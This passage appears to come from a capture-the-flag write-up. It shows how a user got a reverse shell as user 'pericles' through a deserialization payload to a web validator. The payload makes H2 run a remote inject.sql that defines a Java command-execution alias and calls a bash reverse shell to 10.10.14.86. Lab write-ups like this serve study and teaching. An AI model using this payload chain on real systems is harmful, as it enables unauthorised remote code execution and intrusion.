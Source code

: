 # User
A this point i created the following `inject.sql` file:
```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.86/9090 0>&1')
```
and send this string for validation in webpage

>[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.86:8000/inject.sql'\"}]

<img src="./img/validator.png"  width="650"/>


and got the rev shell as user `pericles`

<img src="./img/revshell.png"  width="650"/>
